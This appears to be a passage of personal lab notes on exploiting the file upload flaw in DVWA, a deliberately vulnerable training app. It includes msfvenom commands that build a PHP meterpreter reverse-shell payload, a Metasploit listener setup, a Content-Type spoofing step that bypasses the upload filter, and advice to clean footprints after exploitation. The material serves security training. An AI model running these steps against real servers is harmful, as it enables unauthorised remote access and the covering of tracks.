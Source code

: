 ```sh
sudo msfconsole
msf6> use exploit/multi/handler
msf6> set payload php/meterpreter/reverse_tcp
msf6> set LHOST 127.0.0.1
msf6> run
```
3. *Fire-UP Burpsuite and goto File Upload page*
	1. Browse and Select `exploit.php` then Upload it, same as Low level
	2. Then `Capture` request in `Burpsuite` and Send it to `Repeater module(CTRL+R)`
	3. Now change `application/x-php` to `image/jpeg` to Bypass Sanitizing. Send Request with modify content.
		1. ![[Pasted image 20240724183749.png]]
	4. *Slide*
		1. ![[Pasted image 20240724183746.png]]
4. *Open `Exploit.php` file in Browser*
	5. File uploaded successfully, now Open it in Browser to give Meterpreter Access in msfconsole.
		1. ![[Pasted image 20240724183957.png]]
#### Practical Demo
##### DVWA File Upload - Low Difficulty
0. *Start Multi-Handler Listening*
	1. `use exploit/multi/handler`
	2. `set payload php/meterpreter/reverse_tcp`
		1. ![[Pasted image 20240724174031.png]]
	3. `set LHOST 127.0.0.1`
	4. `exploit`
		1. ![[Pasted image 20240724174211.png]]
	5. Now Listener start and wait for reverse PHP Session.
```sh
sudo msfconsole
msf6> search handler
msf6> use exploit/multi/handler
msf6> set payload php/meterpreter/reverse_tcp
msf6> set LHOST 127.0.0.1
msf6> run
```
1. *Create payload with `msfvenom`*
	1. `msfvenom -l payloads | grep php`  List all payloads for PHP
	2. `msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > exploit.php`
		1. ![[Pasted image 20240724174835.png]]
	3. Now payload successfully created and we can use it
		1. ![[Pasted image 20240724174908.png]]
```sh
msfvenom -l payloads | grep php
msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > exploit.php
```
2. *Goto `DVWA => File Upload` *
	1. Click on `Browse` and select `Exploit.php` 
		1. ![[Pasted image 20240724175259.png]]
	2. Now click on `Upload` and Payload upload to server
		1. ![[Pasted image 20240724175357.png]]
	3. Copy uploaded payload URL, then open it in Browser
		1. ![[Pasted image 20240724175520.png]]
3. *Go back to `msfconsole`*
	1. by upload and run `Exploit.php` in DVWA Server, now we get `Meterpreter Access` to this Server
		1. ![[Pasted image 20240724175655.png]]
	2. We can run any Meterpreter commands in DVWA Server such as:
		1. `meterpreter> ls`
			1. ![[Pasted image 20240724175809.png]]
		2. `meterpreter> getuid`
			1. ![[Pasted image 20240724175835.png]]
4. *Post Exploitation Phase*
	1. in First Step we should `remove exploit.php` in server, Actually we should `Cleaning all Footprints` on server.